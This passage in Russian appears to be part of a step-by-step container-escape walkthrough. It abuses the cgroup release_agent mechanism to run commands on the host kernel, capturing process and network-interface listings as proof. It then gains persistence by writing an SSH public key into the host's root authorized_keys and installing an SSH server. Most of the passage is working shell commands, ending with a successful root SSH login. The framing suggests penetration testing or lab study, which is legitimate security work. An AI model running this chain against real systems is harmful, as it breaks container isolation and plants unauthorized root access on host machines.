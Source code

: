 Шаг 5 — Подготовка скрипта-агента на хосте (артефакт доказательства)
Сформировать содержимое скрипта (вывод списка процессов и сетевых интерфейсов; запись в файл-доказательство на стороне хоста).
```bash
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
```
Выдать исполняемые права.
```bash
chmod a+x /cmd
```
Шаг 6 — Триггер события освобождения cgroup
Поместить текущий PID в тестовую группу и инициировать событие освобождения.
```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Ожидать, что ядро хоста выполнит указанный агент.

Шаг 7 — Подтверждение выполнения кода на хосте
Просмотреть артефакт (файл с результатами), расположенный в файловой системе хоста.
Зафиксировать факт выполнения команд уровня хоста.
```bash
cat output
```

```bash
echo '#!/bin/sh' > /cmd
echo "ip a > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat output
```
Шаг 8 — Демонстрация персистентности.
Сформировать ключи SSH в контейнере, безопасно извлечь публичный ключ.
Через механизм release agent записать ключ в authorized_keys на хосте.
Проверить подключение по SSH.

```bash
apt update && apt -y install openssh-client
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub
echo "echo 'ssh-rsa AAAA...' > /root/.ssh/authorized_keys" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

echo '#!/bin/sh' > /cmd
echo "apt-get install openssh-server -y > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

```bash
ssh root@192.168.0.97
The authenticity of host '192.168.0.97 (192.168.0.97)' can't be established.
ED25519 key fingerprint is SHA256:DCAZDfa2XNZ1UBzrLt5vmdZbR3j0d5O6YKelITx6cZM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.97' (ED25519) to the list of known hosts.
Welcome to Ubuntu Focal Fossa (development branch) (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

797 updates can be installed immediately.
508 of these updates are security updates.
To see these additional updates run: apt list --upgradable

```